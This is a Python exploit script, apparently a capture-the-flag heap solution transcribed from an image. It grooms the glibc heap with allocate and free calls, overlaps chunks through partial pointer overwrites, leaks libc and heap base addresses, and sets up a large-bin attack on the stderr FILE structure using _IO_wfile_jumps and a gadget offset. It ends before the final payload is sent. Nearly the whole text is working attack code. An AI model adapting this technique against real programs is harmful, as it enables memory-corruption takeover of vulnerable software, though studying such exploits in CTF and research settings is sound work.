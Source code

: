 ```python
add(0x438, "B0"*0x100) #2 B0 helper
add(0x448, "C0"*0x100) #3 C0 = P , P&0xff = 0
add(0x108,'4'*0x100) #4 barrier
add(0x488, "H"*0x100) # H0. helper for write bk->fd. vitcim chunk.
add(0x428, "D"*0x100) # 6 D = P->bk
add(0x108,"barrier") # 7 barrier

delete(0) #A
delete(3) #c0
delete(6) #d
#unsortedbin: D-C0-A   C0->FD=A

delete(2) # merge B0 with C0. preserve p->fd p->bk
add(0x458, b'a' * 0x438 + p64(0x561)[:-2])  #index 0 put A,D into largebin, split BC. use B1 to set p->size=0x551

add(0x428,'A')  #2 C1 from ub
add(0x428,'A')  #3 bk  D  from largebin
add(0x418,"0"*0x100)  #6 fd    A from largein

delete(6) #A
delete(2) #c1

# unsortedbin: C1-A ,   A->BK = C1
add(0x418, 'a' * 8)  # 2 partial overwrite bk    A->bk = p
add(0x418,"A")       #6  c1


# step4 use ub to set bk->fd
delete(6) # C1
delete(3) # D=P->bk
# ub-D-C1    D->FD = C1
delete(5) # merge D with H, preserve D->fd 

add(0x500-8, b'6'*0x488 + p64(0x431)) #3 H1. bk->fd = p, partial write \x00

add(0x3b0,"A") #5 recovery

delete(4)
add(0x108, 0x100*b'4' + p64(0x560)) #4
delete(3)

add(0x448,"A") #3 put libc to chunk 4
show(4)
libc_base=uu64()-0x219ce0
lg("libc_base")
show(2)
ru("a"*8)
heap_base=u64(rn(6).ljust(8,b"\x00"))-0x15f0
lg("heap_base")

delete(3)
io_stderr=libc_base+0x21a860
lg("io_stderr")
add(0x448,p64(libc_base+0x219ce0)*2+p64(0)+p64(0x431)+p64(libc_base+0x21a0d0)*2+p64(heap_base+0xc20)+p64(io_stderr-0x20)) #3


add(0x608,"a") #6

read=libc_base+libc.sym['read']
_IO_wfile_jumps=libc_base+libc.sym['_IO_wfile_jumps']
magic_gadget=libc_base+0x169e7a
```